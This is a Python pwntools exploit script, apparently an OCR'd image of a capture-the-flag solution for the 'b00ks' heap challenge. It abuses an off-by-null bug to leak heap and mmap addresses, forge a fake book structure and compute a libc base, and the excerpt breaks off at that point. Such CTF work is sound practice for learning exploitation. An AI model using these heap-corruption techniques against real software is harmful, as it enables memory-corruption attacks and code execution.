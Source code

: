 ```python
    p.sendline(str(index))
    p.recvuntil("Enter new book description: ")
    p.sendline(desc)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("Loading program...")
p = process("./b00ks")
log.success("Load success!")
p.recvuntil("Enter author name: ")
p.sendline("a" * 32)
time.sleep(1)
log.info("Off-BY-NULL!")
time.sleep(1)
p.recvuntil("> ")
create(10, "book1_name", 200, "book1_desc")
create(0x21000, "book2_name", 0x21000, "book2_desc")
p.recvuntil("> ")
time.sleep(1)
log.info("Leaking book_1's address...")
time.sleep(1)
p.sendline("4")
p.recvuntil("Author: ")
p.recv(32)
book1_addr = u64(p.recv(6) + '\x00\x00')
log.success("Book1_addr : 0x%x" % book1_addr)
time.sleep(1)
log.info("Calculating book_2's address...")
time.sleep(1)
book2_addr = book1_addr + 0x30
log.success("Book2_addr : 0x%x" % book2_addr)
time.sleep(1)
p.recvuntil("> ")
time.sleep(1)
log.info("Prepare to construct a fake book...")
payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)
edit(1, payload)
time.sleep(1)
log.success("Fake book constructed! And two pointers were set to book2.")
time.sleep(1)
p.recvuntil("> ")
log.info("Off-BY-NULL again! Now Book1 was set to the fake book.")
p.sendline("5")
p.recvuntil("Enter author name: ")
p.sendline('a' * 32)
p.recvuntil("> ")
time.sleep(1)
log.info("Leaking mmap address...")
time.sleep(1)
p.sendline("4")
p.recvuntil("Name: ")
mmap_addr = u64(p.recv(6) + '\x00\x00')
time.sleep(1)
log.success("Mmap address : 0x%x" % mmap_addr)
time.sleep(1)
p.recvuntil("> ")
time.sleep(1)
log.info("Calculating libc's base")
time.sleep(1)
libc_addr = 0x7ffff79e4000   # Change it if doesn't work!
#这里存在另一种写法，之后再说。
time.sleep(1)
log.success("Libc's addr : 0x%x" % libc_addr)
time.sleep(1)
```